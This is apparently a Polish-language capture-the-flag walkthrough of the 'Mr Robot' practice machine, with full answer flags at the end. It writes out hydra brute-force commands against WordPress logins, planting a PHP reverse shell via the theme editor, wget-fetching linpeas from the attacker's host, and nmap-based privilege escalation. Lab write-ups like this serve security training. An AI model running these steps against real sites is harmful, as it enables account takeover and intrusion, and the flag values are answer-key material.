# Mr Robot
## Zadanie

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

## Kroki

Celem jest odnalezienie 3 kluczy, wystartujmy nasz target i przyjrzyjmy się z czym mamy do czynienia!

Rozpocznijmy od rekonesansu przy użyciu nmap.



Mamy otwarte 3 porty 22,80,443 wejdźmy więc na stronę HTTP.



Po wejściu na stronę mamy coś w stylu terminala root'a zobaczmy co możemy zrobić. 

Postanowiłem sprawdzić robots.txt, okazało się że jest tam zapisana ciekawa nazwa `key-1-of-3.txt`, po sprawdzeniu `/key-1-of-3.txt` pierwsza flaga jest nasza!




Dodatkowo mamy wymieniony również plik `fsocity.dic`, zapiszmy go wygląda na wordlistę, którą użyjemy później. Zrobiłem enumerację ścieżek używając gobustera i znalazło się pare trafień które przenoszą nas na wordpressowy blog.



Obrałem następującą taktykę, znalazłem stronę przypominania hasła `/wp-login.php?action=lostpassword` następnie używając hydry i wordlisty `fsocity.dic` próbowałem znaleźć username jakiegoś użytkownika.

Ze względu na duży rozmiar listy postanowiłem ją zdeduplikować co skróciło ją 80-krotnie.
`sort -o fsocity.dic -u fsocity.dic`

`hydra -L fsocity.dic 10.10.52.89 -p pass http-post-form "/wp-login.php?action=lostpassword:user_login=^USER^&redirect_to=&wp-submit=Get+New+Password:Invalid username" `



Udało się znaleźć usera o nicku 'Elliot', znając tą informację spróbujmy złamać jego hasło używając tej samej wordlisty!

Użyłem komendy:

`hydra -l Elliot 10.10.113.29 -P fsocity.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.113.29%2Fwp-admin%2F&testcookie=1:The password you entered" `



Ok, hasło znalezione. Zalogujmy się więc do WordPressa.
Przeniosło nas do panelu wp-admin.



Wersja to 4.3.1 w tej wersji występuje podatność RCE, pobierzmy więc kod reverse shell.

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

Kod musimy wkleić w edycji naszego motywu `/wp-admin/theme-editor.php?file=comments.php&theme=twentyfifteen`
Gdy go umieścimy uruchamiamy nasłuchiwanie netcata na wybrany port przechodzimy do `/wp-content` wtedy nasz reverse shell powinien "załapać".




Nawigujemy do pulpitu i próbujemy otworzyć `key-2-of-3.txt`, niestety bezskutecznie, pod spodem mamy plik `password.raw-md5` zawiera on shashowane credentiale do naszego konta więc przy pomocy crackstation.net odszyfrowujemy je.




Gdy już je mamy przechodzimy do połączenia przez SSH, udało nam się połączyć odczytujemy z ~ naszą flagę i mamy kolejną do kolekcji!




Czas na ostatnią flagę root'a przejdźmy do folderu `/tmp` i ściągnijmy przy pomocy **wget** kopie skryptu `linpeas.sh`

https://github.com/peass-ng/PEASS-ng/releases/tag/20251001-67326308

W tym celu w naszej konsoli przechodzimy do folderu w którym mamy `linpeas.sh` i uruchamiamy polecenie `python3 -m http.server 8000`, potem w shellu targetu uruchamiamy komendę `wget http://<YOUR_IP>:8000/linpeas.sh`. Następnie dajemy uprawnienia `chmod +x linpeas.sh` i uruchamiamy skrypt `./linpeash.sh`. Linpeas nie zwrócił nic co by zadziałało więc posłużymy się komendą na wyszukanie binów z dostępem dla nas a następnie za pomocą GTFObins.github.io znajdziemy interesujący nas bypass. W tym przypadku kluczem był nmap :)



I tym sposobem zdobywamy ostatnią flagę!

## Flaga

Klucz 1: **073403c8a58a1f80d943455fb30724b9**
Klucz 2: **822c73956184f694993bede3eb39f959**
Klucz 3: **04787ddef27c3dee1ee161b21670b4e4**

